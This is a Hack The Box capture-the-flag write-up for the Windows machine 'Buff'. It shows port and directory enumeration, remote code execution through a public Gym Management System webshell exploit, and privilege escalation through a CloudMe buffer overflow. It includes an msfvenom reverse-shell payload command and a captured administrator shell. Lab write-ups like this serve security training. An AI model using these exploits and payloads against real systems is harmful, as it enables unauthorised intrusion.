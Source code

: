 ```yaml
---
tags:
  - linux
---
```

# HTB: [Buff](https://app.hackthebox.com/machines/Buff)

> [!tip]- Summary with Spoilers
> - This machine was running a vulnerable version of the Gym Management System, which I exploited to gain RCE via a webshell.
> - I leveraged a buffer overflow in the `CloudMe` application to escalate privileges to `Administrator`.

## Services

### TCP

```text
# Nmap 7.94SVN scan initiated Sat Aug 31 17:07:23 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-buff.htb.txt buff.htb
Nmap scan report for buff.htb (10.10.10.198)
Host is up, received user-set (0.089s latency).
rDNS record for 10.10.10.198: t
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 31 17:08:44 2024 -- 1 IP address (1 host up) scanned in 81.21 seconds
```

#### 8080/tcp-http

```text
__http-server-header:
Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
__http-open-proxy:
Potentially OPEN proxy.
Methods supported:CONNECTION
__http-title:
mrb3n's Bro Hut
__http-methods:
  Supported Methods: GET HEAD POST OPTIONS
```

```console
http://buff.htb:8080 [200 OK] Apache[2.4.43], Bootstrap, Cookies[sec_session_id], Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6], HttpOnly[sec_session_id], IP[10.10.10.198], JQuery[1.11.0,1.9.1], OpenSSL[1.1.1g], PHP[7.4.6], PasswordField[password], Script[text/JavaScript,text/javascript], Shopify, Title[mrb3n's Bro Hut], Vimeo, X-Powered-By[PHP/7.4.6], X-UA-Compatible[IE=edge]
```

Selection of potentially interesting URLs from `feroxbuster -u http://buff.htb:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1 -k -s 200,301,302`:

```text
...
301      GET        9l       30w      337c http://buff.htb:8080/profile => http://buff.htb:8080/profile/
301      GET        9l       30w      336c http://buff.htb:8080/upload => http://buff.htb:8080/upload/

200      GET      168l      486w     7791c http://buff.htb:8080/packages.php
200      GET        1l        2w       15c http://buff.htb:8080/include/process_login.php

200      GET      118l      265w     4169c http://buff.htb:8080/contact.php
200      GET      141l      433w     5337c http://buff.htb:8080/about.php
200      GET      122l      502w     5961c http://buff.htb:8080/facilities.php

301      GET        9l       30w      337c http://buff.htb:8080/include => http://buff.htb:8080/include/
301      GET        9l       30w      337c http://buff.htb:8080/Profile => http://buff.htb:8080/Profile/
200      GET      339l     2953w    18025c http://buff.htb:8080/LICENSE
301      GET        9l       30w      333c http://buff.htb:8080/att => http://buff.htb:8080/att/
301      GET        9l       30w      333c http://buff.htb:8080/IMG => http://buff.htb:8080/IMG/

301      GET        9l       30w      332c http://buff.htb:8080/ex => http://buff.htb:8080/ex/

301      GET        9l       30w      334c http://buff.htb:8080/boot => http://buff.htb:8080/boot/
```

```markup
$ curl 'http://buff.htb:8080/HOME.php'
<br />
<b>Parse error</b>:  syntax error, unexpected '}', expecting ';' or ',' in <b>C:\xampp\htdocs\gym\home.php</b> on line <b>106</b><br />
```

```console
$ curl http://buff.htb:8080/editp.php -X POST -d "fn=hax"
<br />
<b>Parse error</b>:  syntax error, unexpected '}', expecting ';' or ',' in <b>C:\xampp\htdocs\gym\editp.php</b> on line <b>21</b><br />
```

I can provoke some errors in various ways, like:

`**Warning**: mysqli::__construct(): (HY000/1049): Unknown database 'secure_login' in **C:\xampp\htdocs\gym\ex\include\db_connect.php** on line **3**`

And,

`:  Undefined index: username in <b>C:\xampp\htdocs\gym\ex\profile\i.php`

This site is running "Gym Management System 1.0", which has a SQLi vulnerability.

## Remote Code Execution

This is <https://www.exploit-db.com/exploits/48506>.

```console
$ python2 ./x.py http://buff.htb:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun
```

## Privilege Escalation

```console
$ head 48389.py
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86
```

Used payload from: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -b "\x00\x0d\x0a" -f python`

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.198] 49729
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

## Post-exploitation

Life after `root`.

```text
PS C:\> systeminfo
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          shaun
Registered Organization:
Product ID:                00329-10280-00000-AA218
Original Install Date:     16/06/2020, 15:05:58
System Boot Time:          28/09/2024, 18:35:32
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.23553139.B64.2403260936, 26/03/2024
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,455 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,054 MB
Virtual Memory: In Use:    1,745 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.198
                                 [02]: fe80::f153:9dda:f5ce:bddb
                                 [03]: dead:beef::cd48:d0d8:4905:bb02
                                 [04]: dead:beef::f153:9dda:f5ce:bddb
                                 [05]: dead:beef::114
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
